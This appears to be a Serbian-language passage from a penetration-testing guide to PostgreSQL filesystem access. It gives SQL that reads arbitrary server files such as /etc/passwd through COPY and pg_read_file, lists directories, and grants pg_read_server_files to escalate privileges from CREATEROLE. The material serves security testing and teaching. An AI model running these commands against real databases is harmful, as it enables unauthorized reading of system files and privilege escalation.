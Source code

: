 ## Radnje na fajl-sistemu

### Čitanje direktorijuma i fajlova

Od ovog [**commit**](https://github.com/postgres/postgres/commit/0fdc8495bff02684142a44ab3bc5b18a8ca1863a) članovi definisane grupe **`DEFAULT_ROLE_READ_SERVER_FILES`** (pozvane **`pg_read_server_files`**) i **super korisnici** mogu koristiti **`COPY`** metod na bilo kom putanji (proverite `convert_and_check_filename` u `genfile.c`):

```sql
# Read file
CREATE TABLE demo(t text);
COPY demo from '/etc/passwd';
SELECT * FROM demo;
```

{% hint style="warning" %}
Zapamtite da ako niste super korisnik, ali imate dozvole **CREATEROLE**, možete **postati član te grupe:**

```sql
GRANT pg_read_server_files TO username;
```

[**Više informacija.**](pentesting-postgresql.md#privilege-escalation-with-createrole)
{% endhint %}

Postoje **druge postgres funkcije** koje se mogu koristiti za **čitanje datoteka ili listanje direktorijuma**. Mogu ih koristiti samo **superkorisnici** i **korisnici sa eksplicitnim dozvolama**:

```sql
# Before executing these function go to the postgres DB (not in the template1)
\c postgres
## If you don't do this, you might get "permission denied" error even if you have permission

select * from pg_ls_dir('/tmp');
select * from pg_read_file('/etc/passwd', 0, 1000000);
select * from pg_read_binary_file('/etc/passwd');

# Check who has permissions
\df+ pg_ls_dir
\df+ pg_read_file
\df+ pg_read_binary_file

# Try to grant permissions
GRANT EXECUTE ON function pg_catalog.pg_ls_dir(text) TO username;
# By default you can only access files in the datadirectory
SHOW data_directory;
# But if you are a member of the group pg_read_server_files
# You can access any file, anywhere
GRANT pg_read_server_files TO username;
# Check CREATEROLE privilege escalation
```
